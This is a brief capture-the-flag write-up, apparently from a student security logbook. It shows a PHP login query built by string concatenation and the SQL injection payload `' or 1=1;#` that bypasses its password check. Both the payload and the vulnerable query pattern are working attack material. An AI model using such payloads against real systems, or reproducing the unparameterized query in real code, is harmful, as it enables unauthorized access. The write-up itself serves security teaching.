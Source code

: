 # CTF - Control The Flag

When entering the website we are presented with a login page. To unlock the vault we need to provide an valid username and password combination.
The goal for this CTF is to log in as valid user. To achieve that, we can use SQL Injection, since the user inputs are not verified, nor used as parameters for the query.

This is the SQL query executed:
```php
    $query = "SELECT username FROM user WHERE username = '".$username."' AND password = '".$password."'";
```

The input used is: `' or 1=1;#`
This input is always true and comments the part where the password is verified.
![login](/Logbooks/img/Week8/login.png)

This is the SQL query that is actually executed:
```php
    $query = "SELECT username FROM user WHERE username = '"' or 1=1;#"' AND password = '".$password."'";
```



![flag](/Logbooks/img/Week8/flag.png)